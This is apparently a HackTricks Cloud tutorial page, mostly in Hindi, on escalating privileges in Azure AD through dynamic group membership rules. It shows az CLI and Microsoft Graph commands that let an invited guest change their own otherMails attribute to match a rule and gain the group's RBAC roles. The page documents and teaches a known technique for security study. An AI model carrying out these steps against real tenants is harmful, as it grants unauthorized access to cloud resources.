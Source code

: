 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**डायनामिक ग्रुप्स** वे ग्रुप्स हैं जिनमें **नियमों** का एक सेट कॉन्फ़िगर किया गया है और सभी **उपयोगकर्ता या उपकरण** जो नियमों से मेल खाते हैं, ग्रुप में जोड़े जाते हैं। हर बार जब एक उपयोगकर्ता या उपकरण का **गुण** **बदला** जाता है, डायनामिक नियमों की **पुनः जांच** की जाती है। और जब एक **नया नियम** **बनाया** जाता है, तो सभी उपकरणों और उपयोगकर्ताओं की **जांच** की जाती है।

डायनामिक ग्रुप्स में **Azure RBAC भूमिकाएँ** असाइन की जा सकती हैं, लेकिन डायनामिक ग्रुप्स में **AzureAD भूमिकाएँ** जोड़ना **संभव नहीं** है।

इस सुविधा के लिए Azure AD प्रीमियम P1 लाइसेंस की आवश्यकता होती है।

## Privesc

ध्यान दें कि डिफ़ॉल्ट रूप से कोई भी उपयोगकर्ता Azure AD में मेहमानों को आमंत्रित कर सकता है, इसलिए, यदि एक डायनामिक ग्रुप का **नियम** उपयोगकर्ताओं को **गुणों** के आधार पर **अनुमतियाँ** देता है जो एक नए **मेहमान** में **सेट** किए जा सकते हैं, तो इस गुणों के साथ एक **मेहमान** **बनाना** और **अधिकार बढ़ाना** संभव है। यह भी संभव है कि एक मेहमान अपने प्रोफ़ाइल का प्रबंधन करे और इन गुणों को बदले।

डायनामिक सदस्यता की अनुमति देने वाले ग्रुप्स प्राप्त करें: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **नियम का उदाहरण**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **नियम का विवरण**: कोई भी मेहमान उपयोगकर्ता जिसके पास 'security' स्ट्रिंग वाला एक द्वितीयक ईमेल है, ग्रुप में जोड़ा जाएगा

मेहमान उपयोगकर्ता ईमेल के लिए, निमंत्रण स्वीकार करें और [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) में **उस उपयोगकर्ता** की वर्तमान सेटिंग्स की जांच करें।\
दुर्भाग्यवश, पृष्ठ गुण मानों को संशोधित करने की अनुमति नहीं देता है, इसलिए हमें API का उपयोग करने की आवश्यकता है:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## संदर्भ

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
